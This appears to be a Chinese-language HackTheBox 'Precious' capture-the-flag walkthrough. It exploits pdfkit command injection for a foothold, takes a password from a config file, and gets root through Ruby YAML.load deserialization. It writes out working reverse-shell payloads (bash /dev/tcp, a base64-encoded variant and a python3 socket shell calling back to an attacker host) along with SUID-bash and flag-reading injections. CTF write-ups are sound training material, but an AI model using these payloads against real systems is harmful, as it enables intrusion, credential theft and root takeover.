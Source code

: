 ## 扫描
```bash
ports=$(nmap -n -Pn -sS  -p- <ip> --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
nmap -v -n -sC -sV -p ${ports} <ip> -oN Precious.nmap
```

只扫出22、80端口。


## 漏洞分析

22端口（openssh 8.4p1 debian 5+deb11u1 (protocol 2.0)）找了一下似乎无漏洞。

### 80端口
访问网页无显示，URL会跳转到 `precious.htb`，将其加入hosts文件后即可访问。

- 无robots  
- 网页源码无发现  
- 目录枚举无发现  
- 网页功能似乎是将网页转pdf  

#### 研究网页功能

尝试几个网址无特别反应，似乎一定要 `http://` 或 `https://` 开头，且一直报错说不能用remote URL。

*迷茫……看了眼Forum说既然不能用remote那可以试试local……*

尝试本地用python开启http服务，随便建立一个文本，回到网页输入自己的URL。  
会弹网页新标签显示刚刚文本的pdf。  
又试了下将文本改为html，里面插入js的 `alert(0)`。再次访问，弹出pdf顺便js也有反映。不过XSS不大熟，止步于此……

*看Forum的提示，似乎要下载pdf看看属性。*

下载pdf，属性里没找到啥。  
`strings` 命令看到 **pdfkit**，搜了下有[PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)。
        
尝试 `` http://<ip>/?name=#{'%20`sleep 5`'} ``。有效，5秒后会直接显示web根目录下的内容。  
*后来才发现下载完pdf后，get shell其实并不必一直用local URL。直接 `` http://example.com/?name=#{'%20`sleep 5`'} `` 也行。*


## foothold
- 尝试反弹shell（无效）  
```
http://<ip>/?name=#{'%20\`bash -i >& /dev/tcp/<ip>/<port> 0>&1`'} 
```

- 试一下base64（无效）  
``` 
http://<ip>/?name=#{'%20`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d`'} 
```  

- 套一层shell执行（无效）  
```
http://<ip>/?name=#{'%20`bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d"`'} 
```  

- python3可以  
```
http://<ip>/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`'} 
```

*不过后来回顾的时候，在本地试了一下无效的那几个：*  
*第一个报错：没有那个文件或目录: /dev/tcp/&lt;ip&gt;/&lt;port&gt;。*  
*第二、三个报错：>&: 没有那个文件或目录。*  
*而base64尝试这个可以： `` http://example.com/?name=#{'%20`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi82NjY2IDA+JjE=|base64 -d|bash`'} `` (不知道为什么 `|sh` 不行)*

get shell后，`id` 是ruby账户。

### 升级为交互式shell
```bash
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```


## get user flag 
home目录有用户 `henry`，ruby家目录 `.bundle/config` 里有其密码。  
转到henry账号，其家目录有flag。


## get root shell
### PoC
henry的 `sudo -l`，有root权限无密码执行 `/usr/bin/ruby /opt/update_dependencies.rb`  

`update_dependencies.rb` 文件里面有load文件（`YAML.load(File.read("dependencies.yml"))`），谷歌：ruby yaml.load file exploit  
找到[PoC文章](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)（最下面有github的payload）

复制 /opt/sample/dependencies.yml (到家目录)并将payload写入。  
```
sudo /usr/bin/ruby /opt/update_dependencies.rb
``` 
执行后有回显id命令的结果是root。


### 方法1：sudo反弹root shell
注入 `"bash -c 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1'"`  

- 只有 'bash -i >& /dev/tcp/&lt;ip&gt;/&lt;port&gt; 0>&1' 的话会有"bad fd"报错

### 方法2：给bash命令添加SUID
注入 `"chmod +s /bin/bash"`，然后执行 `bash -p` 即可获得附加了root的shell  

- *ref: https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup*

### 方法3：命令执行
后来想想，由于只是单纯拿flag

- 可以直接注入 `"bash"` 拿root shell
- 或者直接注入 `"cat /root/root.txt"` 拿flag


## get root falg
`cat /root/root.txt`

---

## 后记
2022/12/4  
其实算是第一次正经打HTB，以前稍微试了下还是觉得Web渗透知识不够的话有点难。  
主要是看这两天群友讨论Precious，然后也有大佬们给出提示，所以想着既然有提示那么我也想要尝试一下……  

想想这个靶机打了好几个小时，还是有点超出自己的实力范围了。不过回顾起来又觉得其实没那么难，很多知识都有接触过，还是实战经验太少了吧。  
围观群里讨论也学到了很多细节，比如get shell前应该先判断环境（如用 `which python python2 python3`）。自己这次就是乱试了几个偶然用python3反弹到了。  

不过[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)的命令执行似乎有限，有些命令并无/或者自己不知道哪里有回显（如 `id`）。后来搜wp时发现[另一个类似的注入方式](https://0xdedinfosec.vercel.app/blog/hackthebox-precious-writeup)， `` http://10.10.XX.XX/?name=%20`id` `` 可在用local URL时在网页回显。也不知道为何明明看的是同一个[pdfkit这个PoC](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)，为什么会想到把 `#{}` 删掉……